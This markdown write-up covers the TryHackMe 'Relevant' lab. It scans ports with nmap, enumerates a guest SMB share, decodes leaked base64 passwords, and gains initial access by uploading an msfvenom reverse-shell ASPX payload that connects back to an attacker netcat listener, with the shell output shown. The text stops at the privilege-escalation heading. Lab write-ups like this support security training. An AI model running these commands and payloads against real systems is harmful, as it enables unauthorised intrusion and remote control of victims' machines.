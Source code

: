 ```yaml
---
title: THM-Relevant
date: "2022-01-10"
description: Attacking windows via IIS, SMB and SEImpersonate
tldr: Windows attacks
tags: [windows,printspool,iis,smb,tryhackme]

---
```


## Information Gathering
`IP address: 10.10.81.222`
  
when surfing with firefox to the IP, there's a IIS webserver page being presented. This should be further enumerated.

## Scan
Run nmap to see what ports that might be presented.

```shell
nmap -Pn 10.10.81.222 -p-  
  
Completed SYN Stealth Scan at 15:07, 320.37s elapsed (65535 total ports)  
Nmap scan report for 10.10.81.222  
Host is up (0.097s latency).  
Scanned at 2022-01-10 15:02:33 CET for 321s  
Not shown: 65527 filtered tcp ports (no-response)  
PORT STATE SERVICE  
80/tcp open http  
135/tcp open msrpc  
139/tcp open netbios-ssn  
445/tcp open microsoft-ds  
3389/tcp open ms-wbt-server  
49663/tcp open unknown  
49666/tcp open unknown  
49668/tcp open unknown
```

Here the SMB port (445) seems like a good start to get some more information about shares and such.

## Enumeration

### SMBClient
```shell
$ impacket-smbclient Guest:''@10.10.81.222  
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation  
  
Password:  
Type help for list of commands  
# shares  
ADMIN$  
C$  
IPC$  
nt4wrksv  
  
# use nt4wrksv  
# ls  
drw-rw-rw- 0 Sat Jul 25 23:46:04 2020 .  
drw-rw-rw- 0 Sat Jul 25 23:46:04 2020 ..  
-rw-rw-rw- 98 Sat Jul 25 17:35:44 2020 passwords.txt  
# get passwords.txt
```

after finding the passwords.txt, let's check the contents.

```shell
$ cat passwords.txt  
[User Passwords - Encoded]  
Qm9iIC0gIVBAJCRXMHJEITEyMw==  
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk  
  
$ echo -n "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d 
Bob - !P@$$W0rD!123  
  
$ echo -n "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d  
Bill - Juw4nnaM4n420696969!$$$
```

Great! some user credentials were found, these should come in handy if they work.

### IIS on port 49663
While testing out the higher ports, IIS was sending replies on port `49663` as well and after some tinkering the `passwords.txt` could be read: 

```shell
$ curl http://10.10.81.222:49663/nt4wrksv/passwords.txt
```

## Initial Access
On the SMB share `nt4wrksv` we have write-permissions, which allows us to upload malicious files like a reverse web-shell. 

create a webshell with msfvenom and upload it. Have a netcat session ready to catch the incoming shell on port 9997

```shell
nc -nlvp 9997

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.12.24 LPORT=9997 -f aspx -o reverse.aspx

impacket-smbclient bill:'Juw4nnaM4n420696969!$$$'@10.10.81.222  
# use nt4wrksv
# put reverse.aspx

firefox http://10.10.81.222:49663/nt4wrksv/reverse.aspx
```

wait for a little while, and then receive the shell

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]  
└─$ nc -nlvp 9997  
listening on [any] 9997 ...  
connect to [10.11.12.24] from (UNKNOWN) [10.10.81.222] 49762  
Microsoft Windows [Version 10.0.14393]  
(c) 2016 Microsoft Corporation. All rights reserved.  
  
c:\windows\system32\inetsrv>
```


## Privilege Escalation
